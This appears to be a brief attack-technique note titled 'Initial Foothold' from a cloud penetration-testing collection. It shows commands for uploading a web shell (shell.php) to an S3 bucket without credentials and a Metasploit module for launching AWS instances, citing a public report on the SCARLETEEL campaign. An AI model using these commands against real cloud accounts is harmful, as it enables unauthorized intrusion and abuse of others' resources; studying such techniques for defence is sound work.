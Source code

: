 # 03 - Initial Foothold

```
$ aws s3 --no-sign-request cp shell.php s3://<s3_bucket_IP>
```

```
msf > use auxiliary/admin/aws/aws_launch_instances
```

---
## References

https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html

https://sysdig.com/blog/scarleteel-2-0/